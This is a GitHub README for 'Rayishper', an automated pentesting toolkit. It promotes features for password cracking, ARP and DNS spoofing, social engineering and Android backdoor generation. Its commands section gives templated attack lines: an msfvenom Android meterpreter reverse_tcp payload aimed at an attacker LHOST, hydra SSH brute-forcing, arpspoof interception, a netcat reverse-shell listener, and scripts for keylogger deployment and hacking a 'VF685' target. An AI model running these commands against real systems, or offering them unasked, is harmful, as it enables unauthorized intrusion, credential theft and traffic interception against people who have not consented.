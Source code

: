 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```

```bash
cd rayishper
```

## Make the script executable:
```bash
chmod +x rayishper.py
```

## Install the required dependencies:
```bash
sudo apt-get update
```
```bash
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
```
**Ensure that all tools used in the script are correctly installed and accessible in your PATH.**

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

- **Python-3:** The core programming language used in the script.
- **Metasploit Framework:** For payload generation, reverse shell listeners, and exploitation.
- **nmap:** For network scanning and discovery.
- **Hydra:** For brute-forcing SSH logins.
- **Tcpdump:** For packet sniffing and network analysis.
- **Aircrack ng:** For wireless network cracking.
- **John the Ripper:** For password cracking.
- **Social Engineering Toolkit (SET):** For social engineering attacks.

## Usage
## To run Rayishper:
```bash 
./rayishper.py 
 ```

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.

Command: 
```bash 
python3 VF685.py
```

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.

Command:
```bash 
 python3 keylog.py
```

## Payload Creation
Description: Generate a custom Android payload using Metasploit.

Command: 
```bash 
msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
```

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.

Command: 
```bash
hydra -l {username} -P {wordlist} ssh://{target_ip}
```

## Network Scanning
Description: Scan a target IP for open ports and services.

Command: 
```bash
nmap -sV {target_ip}
```

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.

Command: 
```bash
sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
```

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.

Command: 
```bash
nc -lvnp {lport}
```

## DNS Spoofing
Description: Spoof DNS responses on a network.

Command: 
```bash
sudo dnsspoof
```

## License
This project is open-source and available under the [MIT License.](# MIT License.)